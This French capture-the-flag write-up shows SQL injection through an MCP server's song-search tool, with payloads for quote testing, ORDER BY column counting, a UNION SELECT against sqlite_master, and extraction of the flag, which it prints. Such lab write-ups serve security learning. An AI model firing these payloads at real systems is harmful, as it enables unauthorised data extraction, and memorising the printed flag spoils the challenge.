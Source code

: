 # Disco Maghreb - Catalogue

## Write-up

On continue notre visite de la boutique **Disco Maghreb**. Cette fois, le serveur MCP ne propose pas directement le flag, mais une fonction permettant de rechercher des chansons de Raï par titre.
Objectif : détourner ce moteur de recherche pour obtenir le flag caché dans la base SQLite.

---

## 1. Reconnaissance

Comme dans le challenge précédent, on peut se connecter au serveur MCP avec un client FastMCP.
En listant les tools, on découvre :

```json
{
    "name": "search_song_by_title",
    "title": null,
    "description": "Search rai song by title",
    "inputSchema": {
        "properties": {
            "title": {
                "title": "Title",
                "type": "string"
            }
        },
    ...
}
```

Le serveur expose un seul tool : `search_song_by_title(title: str)`. Il nous permet de chercher des chansons à partir du titre:
```python
result = await client.call_tool("search_song_by_title", {"title": "el"})
print(f"\nResult:\n{result.structured_content['result']}")
```
```
Result:
Cheb Mami - Meli Meli
Cheb Hasni - El Visa
Faudel - Tellement NBR
```

---

## 2. Exploitation - étapes du SQLi

### a) Test de l'injection

On commence classiquement par injecter un simple **apostrophe `'`** :

```
Error !
```

Cela provoque une erreur, confirmant que notre entrée n'est peut-être pas nettoyée !

---

### b) Enumération des colonnes

On tente d'ajouter un **ORDER BY** pour déterminer le nombre de colonnes dans le `SELECT`.

- `' ORDER BY 2 --` fonctionne.
- `' ORDER BY 3 --` renvoie une erreur.

On en déduit que la requête retourne **2 colonnes**. Notre `UNION SELECT` devra donc aussi sélectionner 2 colonnes.

---

### c) Découverte du schéma de la base

On utilise la table interne de SQLite `sqlite_master` pour lister les tables présentes dans la DB:

```sql
' UNION SELECT name, sql FROM sqlite_master WHERE type='table' --
```
```
Result:
Cheb Bilal - Ghorba
...
Faudel - Tellement NBR
secret - CREATE TABLE secret (flag TEXT)
songs - CREATE TABLE songs (id INTEGER PRIMARY KEY, artist TEXT, title TEXT)
```

On voit deux tables: `songs` et `secret`. Et cette dernière contient une colonne `flag` !

---

### d) Récupération du flag

On lance alors une union select pour extraire la colonne `flag` :

```sql
' UNION SELECT flag, flag FROM secret --
```

On sélectionne 2 fois `flag` pour avoir une union valide.

Résultat :

```
Result:
Cheb Bilal - Ghorba
...
Faudel - Tellement NBR
flag-rai_n3v3r_d135-Yj60e72N - flag-rai_n3v3r_d135-Yj60e72N
```

## Flag

`flag-rai_n3v3r_d135-Yj60e72N`
